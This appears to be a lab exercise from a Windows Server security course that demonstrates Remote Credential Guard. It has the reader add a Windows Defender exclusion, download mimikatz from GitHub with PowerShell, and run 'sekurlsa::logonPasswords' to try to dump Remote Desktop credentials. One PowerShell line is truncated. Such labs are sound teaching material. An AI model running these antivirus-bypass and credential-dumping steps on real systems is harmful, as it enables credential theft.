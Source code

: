  > **Note:**  In this task, you will use mimikatz in order to attempt retrieval of credentials of a user accessing the local server via Remote Desktop. Without the Remote Credential Guard protection, this attempt would be successful. Note that running mimikatz in this manner requires local Administrator privileges.

  > **Note:**  In order to complete subsequent steps, you will need to create a Windows Defender folder exclusion. Without it, the downloaded file will be automatically deleted since it is detected as malware. In general, you obviously should avoid downloading such files or creating exclusions to facilitate their download.

1.   Switch to the console connection to LON-SVR1 (as **ADATUM\\Student1**).
2.   Click **Start** and, in the **Start** menu, click **Settings**. 
3.   In the **Settings** app, click **Update & security**.
4.   Click **Windows Defender**.
5.   Click **Add an exclusion**.
6.   In the **Add an exclusion** interface, click **Exclude a folder**.
7.   In the **Select Folder** dialog box, navigate to **C:\Exclusions** and click **Exclude this folder**.
8.   Click **Start**, in the **Start** menu, right-click **Windows PowerShell**, in the right-click menu, click **More** and click **Run as administrator**. In the **User Account Control** dialog box, click **Yes**.
9.   From the **Administrator: Windows PowerShell** window, type the following and press **Enter**:

```
New-Item -ItemType Directory -Path 'C:\Exclusions' -Force
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType
Invoke-WebRequest –Uri https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180616/mimikatz_trunk.zip -Outfile C:\Exclusions\mimikatz_trunk.zip
```

  > **Note:**  This will download the release 2.1.1-20180616 of mimikatz (mimikatz_trunk.zip) into the C:\\Exclusions folder from https://github.com/gentilkiwi/mimikatz/releases

10.   From the **Administrator: Windows PowerShell** window, type the following and press **Enter**:

```
Expand-Archive –Path C:\Exclusions\mimikatz_trunk.zip -DestinationPath C:\Exclusions -Force
```

  > **Note:**  This will extract the content of the downloaded archive the C:\\Exclusions folder.

11.   Right-click **Start** and click **Command Prompt (Admin)**. In the **User Account Control** dialog box, click **Yes**.
12.   In the **Administrator: Command Prompt** window, change the current directory to **C:\\Exclusions\\x64**.
13.   From the Command Prompt, run the following:

```
mimikatz
privilege::debug
sekurlsa::logonPasswords
exit
```

  > **Note:**  Examine the output. It should include an entry representing the remote interactive logon of the ADATUM Administrator account. Note that the value of the Kerberos password as well as NTLM and SHA1 hashes are not available. 
